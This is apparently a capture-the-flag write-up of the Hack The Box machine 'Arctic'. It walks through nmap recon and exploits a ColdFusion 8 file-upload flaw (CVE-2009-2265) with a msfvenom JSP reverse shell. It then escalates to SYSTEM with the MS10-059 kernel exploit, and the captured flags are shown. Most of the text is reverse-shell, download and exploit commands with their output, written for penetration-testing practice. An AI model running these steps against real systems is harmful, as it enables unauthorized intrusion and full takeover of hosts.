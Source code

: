 ```yaml
---
layout: post
title: Arctic
tags: [OSCP, Writeup, Windows, Java, Web, Arbitrary File Upload, Patch Management]
description: "Arctic write-up"
---
```


![Arctic logo](/assets/imgs/arctic/arctic.png)

### This is an easy windows box

## Tools used

------

- copy
- msfvenom
- nc
- nmap
- python
- smbserver
- systeminfo
- wget
- windows-exploit-suggester


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA arctic 10.10.10.11 -v -Pn

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Here’s what nmap teaches us :

- 



go to : 10.10.10.11:8500

![Arctic logo](/assets/imgs/arctic/index_of.PNG)

get version : http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl  thanks to https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf

![Arctic logo](/assets/imgs/arctic/version.PNG)

Now that I have the version, let's search for known exploits :

![Arctic logo](/assets/imgs/arctic/searchsploit_coldfusion.PNG)

Metasploit module so search web and found this repository :

```
wget https://repo.theoremforge.com/pentesting/tools/-/raw/01a0616a6e09c9dbf42d731261309109443cc3e6/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py
```

## Exploit

------

Generate payload :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f raw > shell.jsp
```

Start nc listener :

```
nc -lvp 1234
```

Exploit :

```
python upload.py 10.10.10.11 8500 ./shell.jsp
```

Go to nc listener :

```
nc -lvp 1234        
listening on [any] 1234 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49834
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

On the machine I run the following command and copy/paste the results into a file over my machine :

```
systeminfo
```

Update the tool :

```
python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-07-28-mssb.xls
[*] done
```

Then run it with the newly created database and the systeminfo file :

```
python windows-exploit-suggester.py --database 2020-07-28-mssb.xls --systeminfo systeminfo
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

We have 3 non-Metasploit exploits. I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work! I found an already compiled executable for it here [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```





```
sudo smbserver.py liodeus ./
```



```
copy \\10.10.14.10\liodeus\MS10-059.exe .
```





```
nc -lvp 12345
```





```
MS10-059.exe 10.10.14.10 12345
```





```
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 50366
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```



## Flags

------

### User.txt

```
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3
```

### Root.txt

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
```